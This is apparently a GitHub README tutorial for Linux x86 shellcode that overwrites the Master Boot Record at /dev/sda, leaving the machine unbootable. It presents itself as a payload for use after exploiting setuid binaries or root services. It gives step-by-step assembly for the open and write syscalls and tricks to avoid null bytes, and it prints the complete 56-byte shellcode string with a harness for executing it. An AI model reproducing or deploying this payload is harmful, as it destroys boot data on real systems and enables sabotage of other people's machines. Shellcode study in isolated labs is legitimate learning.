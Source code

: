 # overwriteMBR
The shellcode overwrites the MBR (Master Boot Record) with 'AHHA', so that the user won't be able to boot to the drive anymore. It overwrites the MBR on the location /dev/sda. The shellcode can only be succesfully executed when the shellcode gets executed with root permissions. This can happen when someone finds a vulnerability in a binary with the setuid privilege or a service that is excecuted by the root user.  
  
The functions we need are the open() and write() functions, these can be easily found on the man page.
```C++
int open(const char *pathname, int flags);                  // 5 -> syscall value
ssize_t write(int fd, const void *buf, size_t count);       // 4 -> syscall value
```
  
The first thing we have to do is open the file located at /dev/sda.  
```asm
_start:
        ; open the /dev/sda
        xor eax, eax
        push eax
        push 0x6164732f ; ads/
        push 0x7665642f ; ved/
        mov ebx, esp
```
  
We want the open() syscall to open the file with the O_TRUNC and O_RDWR flags, this is so that the file will be opened with the cursor at the start that we are able to write to the file. To to this we need to append the flags with each other in a special way. In C, we would do something like this:  
```C++
O_TRUNC | O_RDWR
```
But we are writing it in assembly, so we need to find out what the values are of these flags, it will be a integer value. We can write a small C++ program for this: (test.cpp)  
```C++
// Compile: g++ -o test test.cpp
#include <fcntl.h>
#include <iostream>

int main()
{
  printf("%d\n", O_TRUNC | O_RDWR);
  return 0;
  // Output: 514
}
```
Now that we know what value to append for the parameter of the open() syscall. We can fill in the value 514 in the second parameter of the open() function, but if we fill in 0x202 in the ECX register, we will get zero's in the byte output. We don't want that, because this will get string terminated in a buffer. So we need to find a way to give the ECX register the value 0x202 without the zero's.  
We can get to the value 512 with shifting and then later add the value 2, like so:  
```asm
xor ecx, ecx            ; zero out ecx
inc ecx
shl ecx, 9              ; store integer 512, which is the value of O_TRUNC
add ecx, O_RDWR         ; to make 512 -> 514 for O_TRUNC | O_RDWR
```
Now we can call the syscall with int 0x80.  
  
To write to the MBR, we need to make a buffer of 512 bytes with 'HAHA' repeatedly and use the file-descriptor of the output of the open() syscall. We simply move the EAX register to EBX register for the first parameter of the write() syscall. EAX was our output of the open() syscall and contains the file descriptor of the MBR file. In assembly it is done like so:  
```asm
mov ebx, eax            ; file pointer to ebx
xor eax, eax            ; zero out eax
```
To create a buffer of 'HAHA' with the size of 512, we can make a loop that fills the stack with the value 'HAHA' 128 times. This is because 'HAHA' has a length of 4 and that times to 128 makes 512, that the size is of the MBR. To do this we have to zero out the ECX value, so we can use the CL register that acts as our counter for the loop. We give it a value of 128 and let it loop with a push of our 'HAHA' bytes.  
```asm
        xor ecx, ecx            ; zero out ecx
        mov cl, 128             ; counter of loop, 128 * 4 = 512
        push eax
fill:
        push 0x48414841         ; push 'HAHA' to stack
        loop fill
``` 

When that is done, we have to simply fill the rest of the write() syscall. The last parameter of the function is a variable with the size of the buffer. We can do the same trick as first, to give the value of 512.  
The finishing code looks like this:  
```asm
mov al, SYS_WRITE
mov ecx, esp

xor edx, edx            ; zero out edx
inc edx
shl edx, 9              ; store integer 512
int 0x80
```
  
To compile it we use the same commands as the other shellcode projects:  
```bash
nasm -f elf òverwriteMBR.asm
ld -m elf_i386 overwriteMBR.o -o overwriteMBR
```
Now to extract the bytes from the compiled binary, I found a one-liner that gets the bytes for us from the binary.
```bash
for i in $(objdump -d ./overwriteMBR -M intel | grep "^ " |cut -f2); do echo -n '\x'$i; done;echo
``` 

This gets for us:  
```Python
shellcode:  
"\x31\xc0\x50\x68\x2f\x73\x64\x61\x68\x2f\x64\x65\x76\x89\xe3\xb0\x05\x31\xc9\x41\xc1\xe1\x09\x83\xc1\x02\xcd\x80\x89\xc3\x31\xc0\x31\xc9\xb1\x80\x50\x68\x41\x48\x41\x48\xe2\xf9\xb0\x04\x89\xe1\x31\xd2\x42\xc1\xe2\x09\xcd\x80" 
size 56 bytes.  
```

Now we want to test our shellcode, make sure to use a VM and DON'T test it on your own machine. Because you will erase your own Master Boot Record!  
The source code of the test is: tester.c
```C++
// tester.c
// Compile: g++ -o tester tester.c -m32 -z execstack
char shellcode[] = "...";
int main() {

  ((void (*)())shellcode)();
}
```
